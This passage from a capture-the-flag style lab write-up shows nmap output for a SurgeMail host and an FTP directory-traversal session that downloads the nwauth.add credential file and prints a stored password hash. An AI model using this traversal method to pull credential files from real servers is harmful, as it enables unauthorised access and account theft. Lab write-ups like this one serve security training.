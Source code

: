 ```
|       SSL2_RC2_CBC_128_CBC_WITH_MD5
|       SSL2_RC4_128_WITH_MD5
|       SSL2_DES_64_CBC_WITH_MD5
|_      SSL2_RC4_128_EXPORT40_WITH_MD5
|_http-favicon: Unknown favicon MD5: 803DA8BF442FFF23072386E2B5EF2928
|_html-title: SurgeMail Welcome Page
1 service unrecognized despite returning data. 
If you know the service/version, please submit the following fingerprint 
at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port21-TCP:V=5.21%I=7%D=5/9%Time=4BE68D5E%P=i686-pc-linux-gnu%r(NULL,31
SF:,"220-Complete\x20FTP\x20server\r\n220\x20FTP\x20Server\x20v\x203\.3\.0
SF:\r\n")%r(GenericLines,31,"220-Complete\x20FTP\x20server\r\n220\x20FTP\x
SF:20Server\x20v\x203\.3\.0\r\n")%r(Help,54,"220-Complete\x20FTP\x20server
SF:\r\n220\x20FTP\x20Server\x20v\x203\.3\.0\r\n502\x20Command\x20not\x20im
SF:plemented:\x20HELP\r\n")%r(SMBProgNeg,31,"220-Complete\x20FTP\x20server
SF:\r\n220\x20FTP\x20Server\x20v\x203\.3\.0\r\n");
Service Info: Host: killthen00b; OS: Windows
```

Ok, so we have Qualcomm poppassd, Surgemail and some other stuff.

Where to start ?  This is what I did :

Surgemail allows access to certain services via a webpage.  Surgemail is a name that showed up a few times in the nmap services list.  So it looks like Surgemail is reponsible for the vast majority of the services on this machine.

If you have to pick something to start with, and you see that one application appears to be responsible for most of the services on the machine, then I figured this is a high risk/high impact service.

In the ftp listing of the root of the drive, I noticed 2 references to Surgemail :

- a folder called “surgemail”
- a file called “surgemail_installer.exe”

I downloaded the installer file (*which was still possible when I was connected to the lab*) and installed it on a test box.  During the installation of surgemail on my test box, I created an admin account (user: admin/ password: admin) and tried to find the file where the admin username/password was stored.  I discovered that credentials get stored into a file called nwauth.add

[![image](:/b5961c77134f46c3a6f909b756503f0b "image")](https://www.corelan.be/wp-content/uploads/2010/05/image55.png)

So let’s see if we can use this to get ourselves an admin account in surgemail on the lab machine… Maybe the hashing/encoding of the password will work for any account (no salt etc).

Still connected via FTP, I downloaded the nwauth.add file from the server

```
250 Directory changed to "/MyDocuments/....../....../....../......".
ftp> cd surgemail
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail".
ftp> get nwauth.add
local: nwauth.add remote: nwauth.add
200 PORT command successful.
150 Opening BINARY mode data connection for nwauth.add
226 Transfer complete.
227 bytes received in 0.00 secs (152.9 kB/s)
ftp> bye
221 Goodbye.

root@krypt2:/vpn/70# cat nwauth.add
n00b@killthen00b:{ssha}floeVmRUcb7ku3ChQzBdC4acP3ugCInK:created="1272891311" 
mailaccess="" mailstatus="" admin_access="" quota="" expire="0" full_name="" 
max_in="" phone="" smsto="" user_access="" alias_quota="" list_quota=""
```
